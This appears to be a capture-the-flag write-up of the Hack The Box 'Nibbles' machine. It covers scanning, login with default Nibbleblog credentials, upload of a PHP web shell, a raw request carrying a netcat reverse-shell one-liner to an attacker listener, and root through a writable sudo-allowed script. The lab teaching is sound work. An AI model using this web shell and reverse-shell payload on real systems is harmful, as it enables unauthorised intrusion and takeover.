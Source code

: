 ## Nibbles

__Machine IP: 10.10.10.75__  

__Difficulty: medium__



## Scanning

### Nmap Scanning

```bash
$ nmap -sC -sV  -oA nmap/nibbles.nmap 10.10.10.75
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-04 06:57 EDT
Nmap scan report for 10.10.10.75
Host is up (0.096s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.32 seconds
```

- Home Wegpage
![hompeage](images/homepage.PNG)

- on `view page source` found
```html
<b>Hello world!</b>
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

![nibble_blog](images/nibble_blog.PNG)


### Enumeration

- on running gobuster, found

```bash
$ gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u  http://10.10.10.75/nibbleblog/
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.75/nibbleblog/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/09/04 07:02:09 Starting gobuster
===============================================================
/content (Status: 301)
/themes (Status: 301)
/admin (Status: 301)
/plugins (Status: 301)
/README (Status: 200)
/languages (Status: 301)
Progress: 22161 / 220561 (10.05%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2021/09/04 07:05:53 Finished
===============================================================

```

- on `README` access, found the version of `nibbleblog` 

```bash
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01
```

- on searching `google git`, found 

![nibble_blog_git](images/nibble_blog_git.PNG)
- on trial found `install.php`

![install](images/install.PNG)

- On clicking `update`
![nibblenlog_onupadted][nibblenlog_onupadted.PNG]
- then visited  `admin.php` page

![admin_page](images/admin_page.PNG)

- on searching deafult credentials found `admin:nibbles` and tried.

__Result__
![admin_after_login](images/admin_after_login.PNG)

- On trying `php shell` upload on `My Image Plugin`, able to execute code

![image_upload](images/image_upload.PNG)

- `shell.php`

```bash
$ cat shell.php  
GIF8;
<?php echo system($_REQUEST['code']); ?>

```


- uploaded images can be found in `http://10.10.10.75/nibbleblog/content/private/plugins/my_image/` - where its saved as `image.php`

__Result__

![code_Execution](images/code_Execution.PNG)

- create a reverse shell and set up a listener on kali

__Request__ (changed method to `POST`)
```php
POST /nibbleblog/content/private/plugins/my_image/image.php HTTP/1.1
Host: 10.10.10.75
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=voirb89373gb9d8vi172bn7b21
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 88

cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.12+9002+>/tmp/f
```

__payload__

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 9002 >/tmp/f

```

__Result__

```bash
$ nc -lvnp  9002
listening on [any] 9002 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.75] 41028
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibble
```



### Privilege escalation

- on running `sudo -l`

```bash
$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

```

- directories doesnt exists in nibbler create and write file `monitor.sh` with
```bash
$ cat monitor.sh                               1 ⚙
#!/bin/sh

sh
```

- on executing `monitor.sh`, 
```bash
$ sudo ./monitor.sh
```

__Result__

```bash
$ sudo ./monitor.sh
id
uid=0(root) gid=0(root) groups=0(root)
```


